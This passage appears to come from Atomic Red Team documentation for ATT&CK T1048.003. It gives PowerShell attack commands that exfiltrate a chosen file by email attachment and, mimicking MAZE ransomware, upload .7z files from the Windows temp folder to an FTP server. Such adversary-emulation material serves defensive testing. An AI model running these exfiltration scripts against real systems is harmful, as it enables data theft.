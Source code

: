 #### Inputs:

| Name        | Description                                 | Type   | Default Value                               |
| ----------- | ------------------------------------------- | ------ | ------------------------------------------- |
| input_file  | Path to file to exfiltrate                  | path   | C:&#92;Windows&#92;System32&#92;notepad.exe |
| sender      | The email address of the sender             | string | test@corp.com                               |
| receiver    | The email address of the receiver           | string | test@corp.com                               |
| smtp_server | SMTP server to use for email transportation | string | 127.0.0.1                                   |

#### Attack Commands: Run with `powershell`!

```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject "T1048.003 Atomic Test" -Attachments #{input_file} -SmtpServer #{smtp_server}
```

<br/>
<br/>

## Atomic Test #6 - MAZE FTP Upload

This test simulates MAZE's ransomware's ability to exfiltrate data via FTP.
Upon successful execution, all 7z files within the %windir%\temp directory will be uploaded to a remote FTP server.
Reference: https://www.mandiant.com/resources/tactics-techniques-procedures-associated-with-maze-ransomware-incidents

**Supported Platforms:** Windows

**auto_generated_guid:** 57799bc2-ad1e-4130-a793-fb0c385130ba

#### Inputs:

| Name       | Description                   | Type   | Default Value |
| ---------- | ----------------------------- | ------ | ------------- |
| ftp_server | FTP Server address            | string | 127.0.0.1     |
| username   | Username for FTP server login | string |               |
| password   | Password for FTP server login | string |               |

#### Attack Commands: Run with `powershell`!

```powershell
$Dir_to_copy = "$env:windir\temp"
$ftp = "ftp://#{ftp_server}/"
$web_client = New-Object System.Net.WebClient
$web_client.Credentials = New-Object System.Net.NetworkCredential('#{username}', '#{password}')
if (test-connection -count 1 -computername "#{ftp_server}" -quiet)
{foreach($file in (dir $Dir_to_copy "*.7z"))
{echo "Uploading $file..."
$uri = New-Object System.Uri($ftp+$file.name)
$web_client.UploadFile($uri, $file.FullName)}}
else
{echo "FTP Server Unreachable. Please verify the server address in input args and try again."}
```
